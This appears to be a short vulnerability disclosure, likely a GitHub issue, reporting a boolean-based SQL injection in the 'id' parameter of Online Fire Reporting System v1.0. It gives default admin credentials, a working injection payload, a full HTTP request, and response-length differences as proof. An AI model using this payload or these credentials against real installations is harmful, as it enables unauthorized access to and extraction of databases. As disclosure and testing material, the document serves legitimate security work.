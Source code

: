# Online Fire Reporting System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/admin/?page=requests/manage_request&id=

Vulnerability location: /ofrs/admin/?page=requests/manage_request&id=, id

Current database name: ofrs_db,length is 7

[+] Payload: /ofrs/admin/?page=requests/manage_request&id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /ofrs/admin/?page=requests/manage_request&id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 28978
![image](https://user-images.githubusercontent.com/54017627/170817519-0be3d582-24dd-40ee-a9eb-d97b5dc2819a.png)

![image](https://user-images.githubusercontent.com/54017627/170817539-7050bb76-608b-49a9-a7c3-c11c26685469.png)

When length (database ()) = 7, Content-Length: 29108
![image](https://user-images.githubusercontent.com/54017627/170817513-b3a5c989-69ee-453e-b699-2e7349edf3d7.png)

![image](https://user-images.githubusercontent.com/54017627/170817531-e4801fca-ebdf-4766-909f-a1e381503dcb.png)
